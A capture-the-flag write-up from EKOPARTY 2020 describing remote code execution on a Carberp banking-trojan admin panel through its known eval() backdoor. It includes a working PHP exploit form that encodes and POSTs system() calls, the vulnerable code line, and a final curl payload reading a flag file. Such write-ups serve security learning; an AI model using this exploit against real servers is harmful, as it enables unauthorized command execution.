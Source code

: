 > ADMIN

![](https://raw.githubusercontent.com/estebancano-dev/CTF-Writeups/master/20200924%20EKOPARTY%202020/Tasks/Screenshot_20200927-171458.png)

Solved by: [@fernetInjection](https://twitter.com/fernetInjection "@fernetInjection")

We are given a webserver on `http://admin.eko.cap.tf:10000` with an HTTP 500 response and the info in the image above.

Doing some dirsearch we found an `install.txt` file with some russian steps to install something.. In the info we can see something about Apache `mod_xsendfile`, so digging up a bit and reading https://tn123.org/mod_xsendfile/ we found that if a request header is sent with a file name (and this mod is enabled) we can MAYBE download arbitrary files.

We did our best to exploit this but with no luck.

Doing more googling we found this bank trojan source code https://github.com/nyx0/Carberp. We compared the folders obtained in our scans and matched the ones under https://github.com/huntpig/Carberp-1/tree/master/adminpanel/bot_adm

So the banking trojan of the task is `Carberp`.

After digging a lot we foud that there is an RCE vunerabilitie in the banking trojan (the buster got busted). We can see it here https://vulners.com/zdt/1337DAY-ID-21658

Using this modified exploit code we got RCE.

```php
<table width="607" border="0">
    <tr>
        <td><form method="POST" action="<?php basename($_SERVER['PHP_SELF']) ?>">
                <label for="carberp">Domain: </label>
                <input type="submit" name="button" id="button" value="Ownz !" />
            </form></td>
    </tr>
    <tr>
        <td>
            <?php
            $data = array(
                'id' => 'BOTNETCHECKUPDATER0-WD8Sju5VR1HU8jlV',
                'data' => base64_encode(bin2hex("system('" . $_POST['data'] . "');"))
            );
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, "http://admin.eko.cap.tf:10000/scripts/pat/builds.php");
			//curl_setopt($ch, CURLOPT_HTTPHEADER, array('Expect:','X-Sendfile:/var/www/html/.ht_flag'));
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            curl_setopt($ch, CURLOPT_POST, 1);
            curl_setopt($ch, CURLOPT_TIMEOUT, 30);
            curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
            $contents = curl_exec($ch);
            curl_close($ch);
            echo "<pre>" . $contents . "</pre>";
            ?>
        </td>
    </tr>
</table>
```

We used `http://admin.eko.cap.tf:10000/scripts/pat/builds.php` because that was one of the files we were looking at the source code (and later we found that a lot of php files has the vulnerable `eval` function), but `/index.php` should have worked too.

The vulnerable code in Carberp is this one:
`if(!empty($_POST['data'])) eval(pack("H*", base64_decode($_POST['data'])));`

So if we send a POST request with data set with some encoded content we can get eval() function evaluate our payload. The payload is encoded with `base64_encode(bin2hex())` PHP's functions, as you can see in line 13 of the code

So we executed `cat /var/www/html/.htaccess` we can see that mod_xsendfile was on with the directive `XSendFile on`, so our initial approach maybe was right (we want to know if there was more than one way to solve the challenge)

Doing `ls -al /var/www/html` we found .ht_flag file. We did `cat /var/www/html/.ht_flag`. At first the exploit code was filtering the results, so we went back to a mix of this exploit and `X-Sendfile:/var/www/html/.ht_flag` header, with no luck).

So after some tweeking of the original code we got the flag

Final payload in curl:
```
curl -i -s -k -X $'POST' \
    -H $'Host: admin.eko.cap.tf' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 145' \
    --data-binary $'id=BOTNETCHECKUPDATER0-WD8Sju5VR1HU8jlV&data=NzM3OTczNzQ2NTZkMjgyNzYzNjE3NDIwMmY3NjYxNzIyZjc3Nzc3NzJmNjg3NDZkNmMyZjJlNjg3NDVmNjY2YzYxNjcyNzI5M2I=' \
    $'http://admin.eko.cap.tf:10000/scripts/pat/builds.php'
```

`NzM3OTczNzQ2NTZkMjgyNzYzNjE3NDIwMmY3NjYxNzIyZjc3Nzc3NzJmNjg3NDZkNmMyZjJlNjg3NDVmNjY2YzYxNjcyNzI5M2I=` is `base64_encode(bin2hex('system('cat /var/www/html/.ht_flag');'))`

#### EKO{C4rb3rppppppp}



